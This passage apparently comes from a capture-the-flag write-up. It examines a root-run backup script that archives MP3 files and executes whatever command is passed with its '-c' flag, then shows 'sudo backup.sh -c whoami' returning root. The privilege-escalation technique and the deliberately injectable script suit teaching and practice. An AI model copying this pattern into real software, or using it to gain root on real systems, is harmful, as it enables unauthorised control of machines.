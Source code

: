 ```bash
backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

We can see that it is performing a backup script on all the mp3 files in the users home directory.

However there is a certain part in this file that sticks out.

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```

This function gets a parameter from the command line(-c) and at the end of the script executes it.

```bash
cmd=$($command)
echo $cmd
```

So lets gives this a test.

```bash
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh -c whoami
-------SNIP----------
Backup finished
root
```
